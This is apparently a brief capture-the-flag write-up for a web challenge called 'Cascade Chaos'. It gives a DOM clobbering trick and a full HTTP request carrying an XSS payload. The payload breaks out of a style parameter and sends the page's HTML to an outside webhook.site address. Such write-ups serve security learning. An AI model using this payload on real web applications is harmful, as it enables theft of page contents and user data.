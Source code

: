 # Cascade Chaos

Solved by: @vicevirus

## Question:
A Markdown app that looks harmless... or is it? Can you find the subtle cracks in the system and make things a bit more... interesting? A little creativity goes a long way.


## Solution:
dom clobber in heading, which will allow us to run XSS on the remote service
```
<a id="isSafe">
```

XSS in local service, `color` parameter
```
POST /visit HTTP/1.1
Host: 35.224.222.30:4001
Content-Length: 323
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://35.224.222.30:4001
Referer: http://35.224.222.30:4001/convert?heading=%3Ca+id%3DisSafe%3E&content=%3Cimg%20src%3D%22x%22%20onerror%3D%22fetch(%27http%3A%2F%2Fhttpforever.com%27,%20%7B%20mode%3A%20%27no-cors%27%20%7D)%20.then(response%20%3D%3E%20response.text())%20.then(data%20%3D%3E%20location.href%20%3D%20%27https%3A%2F%2Fwebhook.site%2F0456830e-cbc2-4057-b98c-fe389f00f79c%2F%3Fc%3D%27%20%2B%20encodeURIComponent(data))%3B%22%3E
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "content": "<p><img src=\"x\" onerror=\"location.href='http://local:4002/flag?color=black</style><script>window.onload=function(){location.href=%27https://webhook.site/0456830e-cbc2-4057-b98c-fe389f00f79c/?c=%27%2bbtoa(document.documentElement.outerHTML)}</script>'\" ></p>",
  "heading": "<a id=\"isSafe\"></a>"
}
```

**Flag:** `flag{cha0tic_styl3_sh33ts}`
